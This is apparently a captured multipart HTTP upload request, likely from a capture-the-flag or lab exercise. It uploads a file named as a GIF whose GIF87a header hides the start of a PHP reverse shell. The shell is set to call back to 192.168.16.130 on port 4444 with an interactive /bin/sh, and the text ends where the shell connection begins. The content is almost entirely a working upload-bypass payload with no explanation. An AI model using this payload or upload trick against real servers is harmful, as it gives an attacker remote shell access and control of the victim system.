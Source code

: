 	-----------------------------3116742302425600613338252
	Content-Disposition: form-data; name="file"; filename="php-reverse-shell.gif"
	Content-Type: image/gif

	GIF87a
	<?php

	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '192.168.16.130';  // CHANGE THIS
	$port = 4444;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/sh -i';
	$daemon = 0;
	$debug = 0;

	//
	// Daemonise ourself if possible to avoid zombies later
	//

	// pcntl_fork is hardly ever available, but will allow us to daemonise
	// our php process and avoid zombies.  Worth a try...
	if (function_exists('pcntl_fork')) {
		// Fork and have the parent process exit
		$pid = pcntl_fork();
		
		if ($pid == -1) {
			printit("ERROR: Can't fork");
			exit(1);
		}
		
		if ($pid) {
			exit(0);  // Parent exits
		}

		// Make the current process a session leader
		// Will only succeed if we forked
		if (posix_setsid() == -1) {
			printit("Error: Can't setsid()");
			exit(1);
		}

		$daemon = 1;
	} else {
		printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
	}

	// Change to a safe directory
	chdir("/");

	// Remove any umask we inherited
	umask(0);

	//
	// Do the reverse shell...
	//
